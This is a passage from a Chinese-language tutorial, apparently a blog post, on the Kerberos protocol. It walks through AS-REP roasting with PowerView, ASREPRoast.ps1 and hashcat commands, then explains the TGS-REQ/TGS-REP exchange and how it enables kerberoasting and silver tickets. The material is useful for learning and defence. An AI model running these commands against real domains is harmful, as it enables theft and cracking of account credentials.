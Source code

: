 ```
Import-Module .\powerview.ps1 Get-DomainUser -PreauthNotRequired
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaItXoRhdoVS6iapiczCLKn8uzx1pxfPu9uek2VssEtZqozk41Gcpv5pOcQ/640?wx_fmt=png)

  
使用 ASREPRoast.ps1 获取 AS-REP 返回的 Hash

```
Import-Module .\ASREPRoast.ps1Get-ASREPHash -UserName jack -Domain 0day.org | Out-File -Encoding ASCII hash.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIe2JkMd9SRZTibU5jtPdiapDcM2CtichPibaTtk7E8Rfoj2buGU2IstwEzg/640?wx_fmt=png)

  
修改为 hashcat 能识别的格式，在 $krb5asrep 后面添加 $23 拼接

```
hashcat -m 18200 hash.txt pass.txt --force
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaI3dODytcLafhRpxAWYBdwMQLnjExJqekwGcmyGmsaF6TBULz7UvYywA/640?wx_fmt=png)

TGS-REQ
=======

经过上面的步骤，客户端获得了 TGT 认购权证 和 Login Session Key。然后用自己的密码 NTLM Hash 解密 Login Session Key 得到 原始的 Logon Session Key。然后它会在本地缓存此 TGT 认购权证 和 原始的 Login Session Key。如果现在它需要访问某台服务器的某个服务，它就需要凭借这张 TGT 认购凭证向 KDC 购买相应的入场券 **ST 服务票据（Service Ticket）。**ST 服务票据是通过 KDC 的另一个服务 **TGS（Ticket Granting Service）**出售的。在这个阶段，微软引入了两个扩展自协议 S4u2self 和 S4u2Proxy(当委派的时候，才用的到)  

3、**TGS-REQ**：客户端向 KDC 购买针对指定服务的 ST 服务票据请求，该请求主要包含如下的内容：**客户端信息、Authenticator(Login Session Key 加密的时间戳)、TGT 认购权证 (padata 下 ap-req 下的 ticket) 和 访问的服务名** 以及一些其他信息 。  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIlt4h4UYnJMol4qib70n9528lticzQgQYppLTCaBqnbxE6v4Kdd4A7Z8Q/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIP2icT00k3ExNM9Fkjy4oWCZ9aT7aoA1RDjAicoxKTl9lSVNzjDBQd1Yw/640?wx_fmt=png)

TGS-REP
=======

4.、TGS-REP：TGS 接收到请求之后，首先会检查自身是否存在客户端所请求的服务。如果服务存在，则通过 krbtgt 用户的 NTLM Hash 解密 TGT 并得到 Login Session Key，然后通过 Login Session Key 解密 Authenticator，如果解密成功，则验证了对方的真实身份，同时还会验证时间戳是否在范围内。并且还会检查 TGT 中的时间戳是否过期，且原始地址是否和 TGT 中保存的地址相同。在完成上述的检测后，如果验证通过，则 TGS 完成了对客户端的认证，会生成一个用 Logon Session Key 加密后的用于确保客户端 - 服务器之间通信安全的 Service Session Key 会话秘钥 (也就是最外层 enc-part 部分)。并且会为该客户端生成 ST 服务票据。ST 服务票据主要包含两方面的内容：客户端用户信息 和 原始 Service Session Key，整个 ST 服务票据用该服务的 NTLM Hash 进行加密。最终 Service Session Key 和 ST 服务票据 发送给客户端。(这一步不管用户有没有访问服务的权限，只要 TGT 正确，就都会返回 ST 服务票据，这也是 kerberoasting 能利用的原因，任何一个用户，只要 hash 正确，就可以请求域内任何一个服务的 ST 票据)  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIRn4f0BqKqs0e0aX2ubrPpp16Uqiargp9yiaNntJo9oe92t8b5xB0cTzw/640?wx_fmt=png)

  
enc-part：这部分是用请求服务的密码 Hash 加密的。因此如果我们拥有服务的密码 Hash，那么我们就可以自己制作一个 ST 服务票据，这就造成了白银票据攻击。也正因为该票据是用请求服务的密码 Hash 加密的，所以当我们得到了 ST 服务票据，可以尝试爆破 enc_part，来得到服务的密码 Hash。这也就造成了 kerberoast 攻击  

TGS-REP 阶段产生的攻击方式
-----------------
